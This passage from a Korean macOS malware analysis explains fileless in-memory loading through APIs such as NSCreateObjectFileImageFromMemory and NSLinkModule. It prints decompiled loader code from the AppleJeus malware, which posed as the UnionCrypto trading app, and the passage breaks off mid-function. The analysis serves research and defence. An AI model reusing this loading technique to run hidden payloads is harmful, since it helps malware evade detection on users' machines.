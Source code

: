     // Returns the address in the program’s address space of the data represented by the given symbol. The data may be a variable, a constant, or the first instruction of a function.
    
    void* NSAddressOfSymbol(
       NSSymbol symbol);

공격자는 이러한 API를 이용하여 효과적으로 악성코드를 파일리스 형태로 실행할 수 있다. 그러면 실제 케이스를 확인해보자.

# AppleJeus(2019)의 파일리스 로딩 확인

AppleJeus는 UnionCrypto 라 불리는 암호화폐 거래 프로그램으로 위장하여 악성코드를 설치하였다. 실제 악성행위는 '/Library/UnionCrypto/unioncryptoupdater' 이며, 이 악성코드의 '0x10000699F' 주소에 파일리스 로딩 코드가 담겨져 있다.

    __int64 __fastcall sub_10000699F(_DWORD *address, size_t size, __int64 a3)
    {
      ...
    
      v3 = a3;
      v4 = a1[3];
      if ( v4 != 8 )
        a1[3] = 8;
      if ( NSCreateObjectFileImageFromMemory(address, size, &objectFileImage) == 1 )
      {
        module = NSLinkModule(objectFileImage, "core", 3u);
        if ( module )
        {
          result = 0xFFFFFFF5LL;
          if ( v4 == 2 )
          {
    				sub_1000067D7(v6, (const char **)&baseAddress, 4u, 1);
            NumberofLoadCmd = *(_DWORD *)(baseAddress + 16);
            if ( NumberofLoadCmd )
            {
              loadcmd = baseAddress + 32;           // Load Commands
              Counter = 0;
              while ( *(_DWORD *)loadcmd != 0x80000028 )// lookup an address of LC_MAIN
              {
                loadcmd += *(unsigned int *)(loadcmd + 4);// add loadcmd size
                if ( ++Counter >= NumberofLoadCmd )
                  goto LABEL_10;
              }
              LC_MAIN = (__int64 (__fastcall *)(signed __int64))(*(_QWORD *)(loadcmd + 8) + baseAddress);// lcmain.vmaddress + baseAddress
              v16 = "";
              v17 = v3;
              v18 = 0LL;
              v15 = 0LL;
              v14 = 0LL;
              result = LC_MAIN(2LL);
            }
            else
            {
    LABEL_10:
              fwrite("Could not find ec.\n", 0x13uLL, 1uLL, __stderrp);
              result = 0xFFFFFFF6LL;
            }
          }
        }
        else
        {
          fwrite("Could not link image.\n", 0x16uLL, 1uLL, __stderrp);
          result = 0xFFFFFFF8LL;
        }
      }
      else
